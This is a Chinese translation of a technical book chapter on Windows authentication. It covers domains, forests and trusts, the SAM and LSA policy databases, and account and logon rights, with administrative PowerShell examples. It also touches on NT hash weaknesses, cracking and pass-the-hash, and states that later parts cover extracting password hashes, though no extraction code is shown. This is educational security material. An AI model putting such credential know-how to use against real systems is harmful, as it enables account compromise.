






## 第二章：10 WINDOWS 身份验证


在你与 Windows 系统交互之前，你需要完成其复杂的身份验证过程，该过程将一组凭证（如用户名和密码）转换为一个表示用户身份的 Token 对象。

身份验证是一个过于庞大的话题，无法在一章内全面讲解；因此，我将其分为三部分。本章和下一章将概述 Windows 身份验证、操作系统如何存储用户配置，以及如何检查这些配置。在接下来的章节中，我们将讨论 *交互式身份验证*，即与 Windows 系统直接交互的机制，如通过图形用户界面（GUI）。本书的最后几章将介绍 *网络身份验证*，这是一种允许未物理连接到系统的用户提供凭证并生成一个 Token 对象来表示其身份的身份验证类型。例如，如果你通过文件共享网络连接到 Windows 系统，你将在后台使用网络身份验证来提供访问文件共享所需的身份。

本章将从域身份验证概述开始。接着，我们将深入探讨身份验证配置如何存储在本地，以及如何使用 PowerShell 访问这些配置。最后，我们将概述 Windows 如何在内部存储本地配置，并介绍如何利用这些知识提取用户的哈希密码。

为了最大程度地利用这些身份验证章节，我建议按照 附录 A 中的描述设置域网络虚拟机。你仍然可以在没有设置域网络的情况下运行许多示例，但任何需要网络域的命令在没有设置的情况下是无法工作的。还需注意，根据虚拟机的设置，某些命令的实际输出可能会有所不同，但一般概念应该保持不变。

### 域身份验证

在身份验证过程中，Windows 将其用户和组划分为域。*域* 提供了用户和组如何访问资源的策略；它还提供了用于存储配置信息（如密码）的存储空间。Windows 域的架构足够复杂，足以需要一本专门的书来讲解。然而，在我们深入探讨身份验证配置之前，你应该先了解一些基本概念。

#### 本地身份验证

Windows 中最简单的域存在于独立计算机上，如 图 10-1 所示。



图 10-1：独立计算机上的本地域

计算机上的用户和组只能访问本地资源。一个本地域有一个*本地策略*，定义了计算机上的应用程序和安全配置。本地域被分配与计算机相同的名称：本例中为*GRAPHITE*。如果没有配置企业网络，本地域是你唯一能够检查的类型。

#### 企业网络域

图 10-2 显示了更高层次的复杂性，即企业网络域。



图 10-2：单一企业网络域

企业网络域通过一个*域控制器*集中管理所有工作站或服务器的用户和组，而不是让每个工作站或服务器自己维护这些信息。它将用户配置存储在域控制器上的一个名为*Active Directory*的数据库中。当用户想要对域进行认证时，计算机会将认证请求传递给域控制器，域控制器知道如何使用用户配置来验证该请求。我们将在第十二章和第十四章中讨论交互式认证和 Kerberos 时，详细介绍域认证请求的处理过程。

多个域控制器可以管理一个域；域控制器使用一种特殊的复制协议来复制配置，以确保它们始终保持最新。拥有多个域控制器可以确保冗余：如果一个域控制器发生故障，另一个可以为域中的计算机和用户提供认证服务。

每个域控制器还维护一个*组策略*，网络中的计算机可以查询该策略，以便使用公共域策略自动配置自身。该组策略可以覆盖现有的本地策略和安全配置，从而更容易管理大型企业网络。每台计算机都有一个特殊的用户帐户，使其能够进行域认证。这样，计算机就能访问组策略配置，而无需域用户进行身份验证。

自 Windows 2000 以来，域名已成为 DNS 名称；在图 10-2 中，它是*mineral.local*。为了与旧版 Windows 或不理解 DNS 名称的应用程序兼容，操作系统还提供了一个简单的域名。例如，在这种情况下，简单的名称可能是*MINERAL*，尽管管理员在设置域时可以自由选择自己的简单名称。

请注意，即使配置了企业网络域，单台计算机上的本地域仍然存在。用户始终可以使用特定于该计算机的凭证对其计算机（本地域）进行身份验证，除非管理员通过更改系统上的本地策略禁用此选项。然而，即使计算机本身已加入某个域，这些本地凭证也无法用于访问企业网络中的远程资源。

本地组还决定了域用户在身份验证时获得的访问权限。例如，如果域用户属于本地*管理员*组，那么他们将成为本地计算机的管理员。然而，这种访问权限不会扩展到其他计算机。用户在一台计算机上是本地管理员，并不意味着他们可以在网络中的另一台计算机上获得管理员访问权限。

#### 域林

下一个复杂度级别是*域林*。在这个上下文中，*域林*指的是一组相关的域。这些域可能共享相同的配置或组织结构。在图 10-3 中，三个域组成了这个域林：*mineral.local*，作为域林的根域，以及两个子域，*engineering.mineral.local* 和 *sales.mineral.local*。每个域都维护自己的用户、计算机和组策略。



图 10-3：域林

从安全的角度来看，域林中的一些最重要特性是它的*信任关系*。一个域可以被配置为信任另一个域的用户和组。这个信任关系可以是*单向*的，即一个域信任另一个域的用户，但反过来则不行；也可以是*双向*的，即两个域都信任对方的用户。例如，在图 10-3 中，根域与*engineering.mineral.local*域之间存在双向信任关系。这意味着两个域中的用户可以自由地访问对方的资源。*sales.mineral.local*和根域之间也有双向信任关系。默认情况下，当一个新域被添加到现有域林时，父域和子域之间会建立双向信任关系。

请注意，*engineering.mineral.local*和*sales.mineral.local*之间没有显式的信任关系。相反，这两个域有一个双向*传递信任*关系；由于这两个域与它们的共同父域之间都有双向信任关系，父域允许工程域的用户访问销售域的资源，反之亦然。我们将在第十四章中讨论信任关系是如何实现的。

林中还包含一个共享的 *全局目录*。该目录是存储在林中所有 Active Directory 数据库中的信息的一个子集。它允许一个域或子树中的用户在不需要分别访问每个域的情况下查找林中的资源。

你可以通过建立林之间的信任关系来组合多个林，如图 10-4 所示。这些信任关系也可以是单向或双向的，可以根据需要在整个林之间或在单个域之间建立。



图 10-4：具有信任关系的多个林

一般来说，林之间的信任关系不是传递性的。因此，尽管在图 10-4 中，*vegetable.local* 信任 *mineral.local*，它不会自动信任 *sales.animal.local* 域中的任何内容，即使 *sales.animal.local* 和 *sales.mineral.local* 之间存在双向信任关系。

> 注意
> 
> *管理信任关系可能非常复杂，尤其是在域和林的数量不断增长时。可能会不小心创建出被恶意用户利用的信任关系，从而危害企业网络的安全。我不会讨论如何分析这些关系以发现安全问题；然而，安全工具 BloodHound (*[`<wbr>github<wbr>.com<wbr>/SpecterOps<wbr>/BloodHound`](https://github.com/SpecterOps/BloodHound)*) 可以帮助识别这些问题。*

接下来的几个章节将重点介绍本地域和简单林的配置。如果你想了解更多复杂的域关系，微软的技术文档是一个很好的资源。现在，让我们继续详细讲解本地域如何存储身份验证配置。

### 本地域配置

用户必须先进行身份验证才能在 Windows 系统中为其创建一个 Token 对象，并且为了进行身份验证，用户必须提供身份的证明。这可能以用户名和密码、智能卡或生物识别信息（如指纹）的形式出现。

系统必须安全地存储这些凭证，以便它们可以用来验证用户身份，但不会被公开披露。对于本地域配置，这些信息由 *本地安全机构 (LSA)* 维护，LSA 运行在 LSASS 进程中。图 10-5 给出了 LSA 维护的本地域配置数据库的概览。



图 10-5：本地域配置数据库

LSA 提供了各种 API，像 PowerShell 这样的应用程序可以调用这些 API。这些 API 访问两个配置数据库：用户数据库和 LSA 策略数据库。让我们逐一了解每个数据库中存储的信息，以及如何从 PowerShell 访问它们。

#### 用户数据库

*用户数据库* 存储了两个信息容器，用于本地身份验证。一个容器保存本地用户名、它们的 SID 和密码；另一个容器保存本地组名、它们的 SID 和用户成员资格。我们将依次查看每个容器。

##### 检查本地用户帐户

你可以使用内置于 PowerShell 中的 Get-LocalUser 命令检查本地用户帐户（见 清单 10-1）。

```
PS> **Get-LocalUser | Select-Object Name, Enabled, Sid**
Name               Enabled SID
----               ------- ---
admin              True    S-1-5-21-2318445812-3516008893-216915059-1001
Administrator      False   S-1-5-21-2318445812-3516008893-216915059-500
DefaultAccount     False   S-1-5-21-2318445812-3516008893-216915059-503
Guest              False   S-1-5-21-2318445812-3516008893-216915059-501
user               True    S-1-5-21-2318445812-3516008893-216915059-1002
WDAGUtilityAccount False   S-1-5-21-2318445812-3516008893-216915059-504 
```

清单 10-1：使用 Get-LocalUser 命令显示本地用户帐户

该命令列出设备上所有本地用户的名称和 SID，并指示每个用户是否启用。如果用户未启用，即使他们提供了正确的密码，LSA 也不会允许用户进行身份验证。

你会注意到所有的 SID 都有一个共同的前缀；只有最后的 RID 会改变。这个共同前缀就是 *机器 SID*，它是在安装 Windows 时随机生成的。由于它是随机生成的，每台机器应该有一个唯一的 SID。你可以使用 Get-NtSid 命令，并指定本地计算机的名称来获取机器 SID，正如 清单 10-2 中所示。

```
PS> **Get-NtSid -Name $env:COMPUTERNAME**
Name      Sid
----      ---
GRAPHITE\ S-1-5-21-2318445812-3516008893-216915059 
```

清单 10-2：查询机器 SID

没有方法可以通过公开的 API 提取本地用户的密码。无论如何，默认情况下，Windows 并不存储实际的密码；相反，它存储的是密码的 MD4 哈希值，通常称为 *NT 哈希*。当用户进行身份验证时，他们会将密码提供给 LSA，LSA 使用相同的 MD4 哈希算法对密码进行哈希处理，并与用户数据库中的值进行比较。如果匹配，LSA 就认为用户知道密码，身份验证便通过。

你可能会担心使用过时的消息摘要算法（MD4）对密码进行哈希处理是不安全的——你是对的。获取 NT 哈希值很有用，因为你可能能够破解密码，从而获得原始的文本密码。你还可以使用一种叫做 *pass-the-hash* 的技术，在不需要原始密码的情况下执行远程网络身份验证。

> 注意
> 
> *Windows 曾经将一个单独的* LAN Manager (LM) 哈希值 *与 NT 哈希值一起存储。自 Windows Vista 以来，这个功能默认是禁用的。LM 哈希值极其脆弱；例如，从中派生出的密码不能超过 14 个大写字母。破解 LM 哈希密码比破解 NT 哈希密码要简单得多，后者虽然也很弱。*

你可以使用 New-LocalUser 命令创建一个新的本地用户，正如 列表 10-3 中所演示的那样。你需要为用户提供用户名和密码。此外，你还需要以管理员身份运行此命令；否则，容易在本地系统上获得额外的权限。

```
❶ PS> **$password = Read-Host -AsSecureString -Prompt "Password"**
Password: ************

PS> **$name = "Test"**
❷ PS> **New-LocalUser -Name $name -Password $password -Description "Test User"**
Name Enabled Description
---- ------- -----------
Test True    Test User

❸ PS> **Get-NtSid -Name "$env:COMPUTERNAME\$name"**
Name          Sid
----          ---
GRAPHITE\Test S-1-5-21-2318445812-3516008893-216915059-1003 
```

列表 10-3：创建一个新的本地用户

要创建一个新的本地用户，首先我们必须获取用户的密码 ❶。这个密码必须是安全字符串，因此我们将 AsSecureString 参数传递给 Read-Host 命令。然后，我们使用 New-LocalUser 命令来创建用户，传递用户名和安全密码 ❷。如果没有返回错误，则表示创建成功。

现在我们已经创建了用户，可以查询 LSA 为新用户分配的 SID。我们通过使用 Get-NtSid 命令，并传递用户的完整名称，包括本地计算机名 ❸ 来实现。你会注意到，SID 由机器 SID 和递增的最终 RID 组成。在这种情况下，下一个 RID 是 1003，但它可能是任何值，这取决于其他用户或组是否已经在本地创建。

要从本地系统中删除在 列表 10-3 中创建的用户，可以使用 Remove-LocalUser 命令：

```
PS> **Remove-LocalUser -Name $name** 
```

请注意，这个命令只会删除账户；删除操作并不能保证删除用户可能创建的任何资源。因此，LSA 不应重复使用 RID：否则，可能会允许新用户访问已删除的先前用户账户的资源。

##### 检查本地组

你可以像检查用户一样检查本地组，方法是使用 Get-LocalGroup 命令（列表 10-4）。

```
PS> **Get-LocalGroup | Select-Object Name, Sid**
Name                    SID
----                    ---
Awesome Users           S-1-5-21-2318445812-3516008893-216915059-1002
Administrators          S-1-5-32-544
Backup Operators        S-1-5-32-551
Cryptographic Operators S-1-5-32-569
`--snip--` 
```

列表 10-4：使用 Get-LocalGroup 命令显示本地组

你会注意到列表中有两种类型的 SID。第一个组，*Awesome Users*，其 SID 前缀为机器 SID。这是一个本地定义的组。其余的组有不同的前缀。正如我们在第五章中看到的，这是*BUILTIN*域的域 SID。这些组，如*BUILTIN\Administrators*，是与用户数据库一起默认创建的。

每个本地组在用户数据库中都有一个成员列表，成员可以是用户或其他组。我们可以使用Get-LocalGroupMember命令来获取组成员列表，如示例 10-5 所示。

```
PS> **Get-LocalGroupMember -Name "Awesome Users"**
ObjectClass Name                     PrincipalSource
----------- ----                     ---------------
User        GRAPHITE\admin           Local
Group       NT AUTHORITY\INTERACTIVE Unknown 
```

示例 10-5：显示<sup class="SANS_Futura_Std_Book_11">Awesome Users</sup>组的本地组成员

示例 10-5 显示了*Awesome Users*组的每个成员的三列信息。ObjectClass列表示条目的类型（在此情况下，要么是User，要么是Group）。如果一个组被添加为条目，该组的所有成员也将成为封闭组的成员。因此，输出结果表明，*INTERACTIVE*组的所有成员也都是*Awesome Users*组的成员。

示例 10-6 展示了如何使用New-LocalGroup和Add-LocalGroupMember命令添加一个新组和新成员。你需要以管理员身份运行这些命令。

```
PS> **$name = "TestGroup"**
❶ PS> **New-LocalGroup -Name $name -Description "Test Group"**
Name      Description
----      -----------
TestGroup Test Group

❷ PS> **Get-NtSid -Name "$env:COMPUTERNAME\$name"**
Name               Sid
----               ---
GRAPHITE\TestGroup S-1-5-21-2318445812-3516008893-216915059-1005

❸ PS> **Add-LocalGroupMember -Name $name -Member "$env:USERDOMAIN\$env:USERNAME"**
PS> **Get-LocalGroupMember -Name $name**
ObjectClass Name           PrincipalSource
----------- ----           ---------------
❹ User        GRAPHITE\admin Local 
```

示例 10-6：添加一个新的本地组和组成员

我们首先添加一个新的本地组，并指定该组的名称❶。与用户一样，我们可以使用Get-NtSid命令查询该组的 SID❷。

要向该组添加新成员，我们使用Add-LocalGroupMember命令，指定要添加的组和成员❸。查询组成员信息显示用户已成功添加❹。请注意，用户在下次成功认证之前不会被授予对附加组的访问权限；也就是说，组不会自动添加到该用户现有的令牌中。

要移除示例 10-6 中添加的本地组，请使用Remove-LocalGroup命令：

```
PS> **Remove-LocalGroup -Name $name** 
```

关于用户数据库的内容就讲到这里。接下来，我们来看看 LSA 维护的另一个数据库：策略数据库。

#### LSA 策略数据库

LSA 维护的第二个数据库是 LSA 策略数据库，它存储了帐户权限和其他相关信息，例如我们在第九章中讨论的系统审计策略以及用于保护各种系统服务和凭据的任意机密对象。本节将介绍帐户权限，机密信息将在本章稍后讨论，当我们讨论如何远程访问 LSA 策略数据库时。

*帐户权限* 定义了用户身份验证时会分配给用户令牌的权限，以及用户可以使用哪些机制进行身份验证（登录权限）。像本地组一样，它们包含成员用户和组的列表。我们可以使用 PowerShell 模块中的 Get-NtAccountRight 命令检查已分配的帐户权限，如清单 10-7 所示。

```
PS> **Get-NtAccountRight -Type Privilege**
Name                          Sids
----                          ----
SeCreateTokenPrivilege
SeAssignPrimaryTokenPrivilege NT AUTHORITY\NETWORK SERVICE, ...
SeLockMemoryPrivilege
SeIncreaseQuotaPrivilege      BUILTIN\Administrators,  ...
SeMachineAccountPrivilege
SeTcbPrivilege
SeSecurityPrivilege           BUILTIN\Administrators
SeTakeOwnershipPrivilege      BUILTIN\Administrators
`--snip--` 
```

清单 10-7：显示本地系统的权限帐户权限

在这种情况下，我们仅通过指定适当的 Type 值列出权限。在输出中，我们可以看到每个权限的名称（这些在第四章中有描述），以及包含被分配该权限的用户或组的列。你需要以管理员身份运行该命令才能看到 SID 列表。

你会注意到这些条目中有些是空的。但这并不一定意味着没有用户或组被分配该权限；例如，当创建*SYSTEM* 用户令牌时，权限如 SeTcbPrivilege 会自动分配，而无需参考帐户权限分配。

> 注意
> 
> *如果你为用户分配某些高级权限（例如 SeTcbPrivilege，该权限允许绕过安全控制），即使该用户不在* 管理员 *组中，也会使该用户等同于管理员。我们将在讨论第十二章中的令牌创建时看到这种情况的重要性。*

我们可以使用相同的 Get-NtAccountRight 命令，指定不同的 Type 值来列出登录帐户权限。请以管理员身份运行清单 10-8 中的命令。

```
PS> **Get-NtAccountRight -Type Logon**
Name                              Sids
----                              ----
SeInteractiveLogonRight           BUILTIN\Backup Operators, BUILTIN\Users, ...
SeNetworkLogonRight               BUILTIN\Backup Operators, BUILTIN\Users, ...
SeBatchLogonRight                 BUILTIN\Administrators, ...
SeServiceLogonRight               NT SERVICE\ALL SERVICES, ...
SeRemoteInteractiveLogonRight     BUILTIN\Remote Desktop Users, ...
SeDenyInteractiveLogonRight       GRAPHITE\Guest
SeDenyNetworkLogonRight           GRAPHITE\Guest
SeDenyBatchLogonRight
SeDenyServiceLogonRight
SeDenyRemoteInteractiveLogonRight 
```

清单 10-8：显示本地系统的登录帐户权限

通过阅读第一列中的名称，你可能会认为它们看起来像权限；然而，它们并不是。登录权限表示用户或组可以执行的身份验证角色。每个权限都有允许和拒绝的形式，如表 10-1 中所描述的那样。

表 10-1： 帐户登录权限

| 允许权限 | 拒绝权限 | 描述 |
| --- | --- | --- |
| SeInteractiveLogonRight | SeDenyInteractiveLogonRight | 进行交互式会话的身份验证。 |
| SeNetworkLogonRight | SeDenyNetworkLogonRight | 通过网络进行身份验证。 |
| SeBatchLogonRight | SeDenyBatchLogonRight | 在没有交互式控制台会话的情况下对本地系统进行身份验证。 |
| SeServiceLogonRight | SeDenyServiceLogonRight | 为服务进程进行身份验证。 |
| SeRemoteInteractiveLogonRight | SeDenyRemoteInteractiveLogonRight | 通过远程桌面进行身份验证。 |

如果用户或组没有被分配登录权限，则不会被允许在该角色中进行身份验证。例如，如果一个没有被授予 SeInteractiveLogonRight 权限的用户尝试在物理控制台上进行身份验证，他们将被拒绝访问。然而，如果该用户被授予了 SeNetworkLogonRight 权限，用户可能仍然能够通过网络连接到 Windows 系统，以访问文件共享并成功进行身份验证。拒绝权限会在允许权限之前进行检查，因此你可以先允许一个通用组，比如 *Users*，然后再拒绝特定账户。

PowerShell 模块还提供了修改用户权限分配的命令。你可以使用 Add-NtAccountRight 命令向账户权限中添加 SID。要移除 SID，请使用 Remove-NtAccountRight 命令。我们将在第十二章中看到如何使用这些命令的示例。

### 远程 LSA 服务

前一部分演示了如何在本地系统上与 LSA 通信，并使用 PowerShell 命令（如 Get-LocalUser 和 Get-NtAccountRight）从其配置数据库中提取信息。我之前描述了用于访问这些信息的机制作为一组本地 API，但实际上比这要复杂得多。图 10-6 显示了如何将两个本地域配置数据库暴露给像 PowerShell 这样的应用程序。



图 10-6：LSA 的远程服务和对象

以 Get-LocalUser 命令为例，它调用 Win32 API 来枚举本地用户。用户数据库存储在 *安全账户管理器（SAM）数据库* 中，并通过 *SAM 远程服务* 进行访问。要枚举本地 SAM 数据库中的用户列表，应用程序必须首先请求访问域对象。从该域对象中，API 可以查询用户列表，或者不同的 API 可以枚举本地组或别名。

另一方面，LSA 策略数据库存储在 SECURITY 数据库中，访问它时，我们使用 *域策略远程服务*。

尽管用于访问 SAM 和 SECURITY 数据库的网络协议不同，但它们有几个共同的习惯用法：

+   客户端最初请求连接到数据库。

+   一旦连接，客户端可以请求访问单独的对象，如域或用户。

+   数据库和对象有配置的安全描述符，用于控制访问。

PowerShell 命令与本地 LSA 交互，但相同的网络协议也可以用于查询企业网络中另一台机器上的 LSA。为了更好地理解数据库访问的工作原理，我们需要使用低级 API 来驱动协议，因为诸如 Get-LocalUser 这样的命令所使用的高级 API 隐藏了很多复杂性和结构。接下来的部分将讨论如何直接访问数据库，以检查它们的安全信息和配置。

#### SAM 远程服务

微软在 *MS-SAMR* 文档中记录了访问 SAM 的服务，该文档可以在线获取。幸运的是，我们不需要自己重新实现这个协议。我们可以通过 SamConnect Win32 API 连接到 SAM，该 API 返回一个句柄，供后续请求使用。

在列表 10-9 中，我们使用Connect-SamServer命令连接到 SAM，该命令公开了SamConnect API。

```
PS> **$server = Connect-SamServer -ServerName 'localhost'**
PS> **Format-NtSecurityDescriptor $server -Summary -MapGeneric**
<Owner> : BUILTIN\Administrators
<Group> : BUILTIN\Administrators
<DACL>
Everyone: (Allowed)(None)(Connect|EnumerateDomains|LookupDomain|ReadControl)
BUILTIN\Administrators: (Allowed)(None)(Full Access)
NAMED CAPABILITIES\User Signin Support: (Allowed)(None)(GenericExecute|GenericRead) 
```

列表 10-9：连接到 SAM 并显示其安全描述符

你可以使用ServerName属性指定包含 SAM 的服务器名称。在这种情况下，我们使用*localhost*（为了清晰起见；指定该值是多余的，因为它是该命令的默认值）。连接具有相关的安全描述符，我们可以使用Format-NtSecurityDescriptor命令来查询它，该命令在第五章中介绍。

> 注意
> 
> *在第六章中，我们讨论了使用Set-NtSecurityDescriptor命令修改安全描述符。你可以使用此命令授予其他用户对 SAM 的访问权限，但不推荐这样做；如果操作不当，可能会授予低权限用户访问 SAM 的权限，这可能导致权限提升或甚至远程危害 Windows 系统。*

